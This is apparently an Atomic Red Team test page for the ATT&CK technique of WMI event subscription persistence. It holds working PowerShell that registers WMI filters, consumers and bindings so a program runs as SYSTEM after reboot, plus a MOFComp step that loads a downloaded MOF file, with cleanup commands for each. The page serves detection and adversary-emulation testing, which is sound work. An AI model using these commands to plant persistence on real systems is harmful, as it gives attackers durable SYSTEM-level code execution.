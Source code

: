 # T1546.003 - Event Triggered Execution: Windows Management Instrumentation Event Subscription
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/003)
<blockquote>Adversaries may establish persistence and elevate privileges by executing malicious content triggered by a Windows Management Instrumentation (WMI) event subscription. WMI can be used to install event filters, providers, consumers, and bindings that execute code when a defined event occurs. Examples of events that may be subscribed to are the wall clock time, user loging, or the computer's uptime.(Citation: Mandiant M-Trends 2015)

Adversaries may use the capabilities of WMI to subscribe to an event and execute arbitrary code when that event occurs, providing persistence on a system.(Citation: FireEye WMI SANS 2015)(Citation: FireEye WMI 2015) Adversaries may also compile WMI scripts into Windows Management Object (MOF) files (.mof extension) that can be used to create a malicious subscription.(Citation: Dell WMI Persistence)(Citation: Microsoft MOF May 2018)

WMI subscription execution is proxied by the WMI Provider Host process (WmiPrvSe.exe) and thus may result in elevated SYSTEM privileges.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Persistence via WMI Event Subscription - CommandLineEventConsumer](#atomic-test-1---persistence-via-wmi-event-subscription---commandlineeventconsumer)

- [Atomic Test #2 - Persistence via WMI Event Subscription - ActiveScriptEventConsumer](#atomic-test-2---persistence-via-wmi-event-subscription---activescripteventconsumer)

- [Atomic Test #3 - Windows MOFComp.exe Load MOF File](#atomic-test-3---windows-mofcompexe-load-mof-file)


<br/>

## Atomic Test #1 - Persistence via WMI Event Subscription - CommandLineEventConsumer
Run from an administrator powershell window. After running, reboot the victim machine.
After it has been online for 4 minutes you should see notepad.exe running as SYSTEM.

Code references

https://gist.github.com/mattifestation/7fe1df7ca2f08cbfa3d067def00c01af

https://github.com/EmpireProject/Empire/blob/master/data/module_source/persistence/Persistence.psm1#L545

**Supported Platforms:** Windows


**auto_generated_guid:** 3c64f177-28e2-49eb-a799-d767b24dd1e0






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$FilterArgs = @{name='AtomicRedTeam-WMIPersistence-CommandLineEventConsumer-Example';
                EventNameSpace='root\CimV2';
                QueryLanguage="WQL";
                Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"};
$Filter=New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $FilterArgs

$ConsumerArgs = @{name='AtomicRedTeam-WMIPersistence-CommandLineEventConsumer-Example';
                CommandLineTemplate="$($Env:SystemRoot)\System32\notepad.exe";}
$Consumer=New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property $ConsumerArgs

$FilterToConsumerArgs = @{
Filter = [Ref] $Filter;
Consumer = [Ref] $Consumer;
}
$FilterToConsumerBinding = New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property $FilterToConsumerArgs
```

#### Cleanup Commands:
```powershell
$EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class CommandLineEventConsumer -Filter "Name = 'AtomicRedTeam-WMIPersistence-CommandLineEventConsumer-Example'"
$EventFilterToCleanup = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = 'AtomicRedTeam-WMIPersistence-CommandLineEventConsumer-Example'"
$FilterConsumerBindingToCleanup = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($EventConsumerToCleanup.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding" -ErrorAction SilentlyContinue
$FilterConsumerBindingToCleanup | Remove-WmiObject
$EventConsumerToCleanup | Remove-WmiObject
$EventFilterToCleanup | Remove-WmiObject
```





<br/>
<br/>

## Atomic Test #2 - Persistence via WMI Event Subscription - ActiveScriptEventConsumer
Run from an administrator powershell window. After running, reboot the victim machine.
After it has been online for 4 minutes you should see notepad.exe running as SYSTEM.

Code references

https://gist.github.com/mgreen27/ef726db0baac5623dc7f76bfa0fc494c

**Supported Platforms:** Windows


**auto_generated_guid:** fecd0dfd-fb55-45fa-a10b-6250272d0832






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$FilterArgs = @{name='AtomicRedTeam-WMIPersistence-ActiveScriptEventConsumer-Example';
                EventNameSpace='root\CimV2';
                QueryLanguage="WQL";
                Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"};
$Filter=Set-WmiInstance -Class __EventFilter -Namespace "root\subscription" -Arguments $FilterArgs

$ConsumerArgs = @{name='AtomicRedTeam-WMIPersistence-ActiveScriptEventConsumer-Example';
                ScriptingEngine='VBScript';
                ScriptText='
                Set objws = CreateObject("Wscript.Shell")
                objws.Run "notepad.exe", 0, True
                '}
$Consumer=Set-WmiInstance -Namespace "root\subscription" -Class ActiveScriptEventConsumer -Arguments $ConsumerArgs

$FilterToConsumerArgs = @{
Filter = $Filter;
Consumer = $Consumer;
}
$FilterToConsumerBinding = Set-WmiInstance -Namespace 'root/subscription' -Class '__FilterToConsumerBinding' -Arguments $FilterToConsumerArgs
```

#### Cleanup Commands:
```powershell
$EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class ActiveScriptEventConsumer -Filter "Name = 'AtomicRedTeam-WMIPersistence-ActiveScriptEventConsumer-Example'"
$EventFilterToCleanup = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = 'AtomicRedTeam-WMIPersistence-ActiveScriptEventConsumer-Example'"
$FilterConsumerBindingToCleanup = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($EventConsumerToCleanup.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding" -ErrorAction SilentlyContinue
$FilterConsumerBindingToCleanup | Remove-WmiObject
$EventConsumerToCleanup | Remove-WmiObject
$EventFilterToCleanup | Remove-WmiObject
```





<br/>
<br/>

## Atomic Test #3 - Windows MOFComp.exe Load MOF File
The following Atomic will utilize MOFComp.exe to load a local MOF file.
The Managed Object Format (MOF) compiler parses a file containing MOF statements and adds the classes and class instances defined in the file to the WMI repository. 
To query for the class:  gwmi __eventfilter -namespace root\subscription
A successful execution will add the class to WMI root namespace.
Reference: https://pentestlab.blog/2020/01/21/persistence-wmi-event-subscription/ and https://thedfirreport.com/2022/07/11/select-xmrig-from-sqlserver/.

**Supported Platforms:** Windows


**auto_generated_guid:** 29786d7e-8916-4de6-9c55-be7b093b2706





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| mofcomp_path | Location of mofcomp.exe | string | c:&#92;windows&#92;system32&#92;wbem&#92;mofcomp.exe|
| mof_file | Local location MOF file | string | PathToAtomicsFolder&#92;T1546.003&#92;src&#92;T1546.003.mof|


#### Attack Commands: Run with `powershell`! 


```powershell
#{mofcomp_path} #{mof_file}
```

#### Cleanup Commands:
```powershell
$EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class CommandLineEventConsumer -Filter "Name = 'AtomicRedTeam_consumer'"
$EventFilterToCleanup = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = 'AtomicRedTeam_filter'"
$FilterConsumerBindingToCleanup = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($EventConsumerToCleanup.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding" -ErrorAction SilentlyContinue
$FilterConsumerBindingToCleanup | Remove-WmiObject
$EventConsumerToCleanup | Remove-WmiObject
$EventFilterToCleanup | Remove-WmiObject
```



#### Dependencies:  Run with `powershell`!
##### Description: MofComp.exe must exist on disk at specified location (#{mofcomp_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{mofcomp_path}") { exit 0} else { exit 1}
```
##### Get Prereq Commands:
```powershell
Validate MOFComp.exe is on disk somewhere and update input argument.
```
##### Description: MofComp.exe must exist on disk at specified location (#{mof_file})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{mof_file}") { exit 0} else { exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{mof_file}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.003/src/T1546.003.mof" -OutFile "#{mof_file}"
```




<br/>
